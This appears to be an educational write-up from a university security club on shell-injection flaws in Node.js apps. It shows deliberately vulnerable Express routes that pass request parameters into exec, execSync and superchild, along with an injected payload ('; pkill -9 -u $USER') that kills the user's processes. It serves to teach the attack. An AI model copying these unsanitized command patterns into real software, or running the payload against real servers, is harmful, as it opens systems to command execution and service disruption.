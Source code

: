 Uses `execSync` a synchronous version of the `exec` builtin. 
```Javascript
app.get('/2', function (req, res) {
  res.send(child_maker.execSync('ls ' + req.query.file_path).toString();
})
```

### Running the exploit

#### Starting Server
After downloading the [source](https://github.uconn.edu/jrs12014/OSC-UConn/tree/master/WriteUps/ShellInjections/base_packages) and installing the dependencies you can run the server simply by doing 

- `foo@bar:~$ cd /path/to/base_packages/`
- `foo@bar:~$ node exploitable.js`

#### Payload procedure
- Go to `localhost:3000/1?file_name={exploit content}` serves the exploit using the `exec` function.
- `localhost:3000/2?file_name={exploit content}` serves the exploit using the `execSync` function
- `; pkill -9 -u $USER `
  - Command will kill all processes running as the application's user.

### Why is this present?
The nodeJS `exec` statements are directly passed to the system shell.


## Using `superchild` npm package
`superchild` is a simple wrapper for the `require('child_process')` module functions. It uses the `spawn` function from the `child_process` module in a way that exposes a shell. It also provides some async interfaces to the subprocess' shell state.

### Dependencies
Download the [`ShellInjections/superchild/`](https://github.uconn.edu/jrs12014/OSC-UConn/tree/master/WriteUps/ShellInjections/superchild) directory.

npm packages:
  - `express` framework used to build the vulnerable web app, not vulnerable itself.
  - `superchild` module which can be used to run arbitrary shell commands.

### Exploitable Source

#### [`superchild_exploitable.js`](https://github.uconn.edu/jrs12014/OSC-UConn/blob/master/WriteUps/ShellInjections/superchild/superchild_exploitable.js)
``` javascript
// Add dependencies
const express = require('express'),
      superchild = require('superchild');

/* Code to set up serving form and start express app */

// When the form_response HTTP path is encounter run this function
app.post('/form_response', (req, res) => {
  // Sets filePath
  let filePath = req.body.filePath

  // Creates child process for cat
  // Filename is from the filePath parameter in the HTTP Get request directly 
  let child = superchild('cat ' + req.body.filePath);
  // When the child has output put it into the HTTP response.
  child.on('stdout_line', function (line) {
    res.write(line + '\n');
  });
```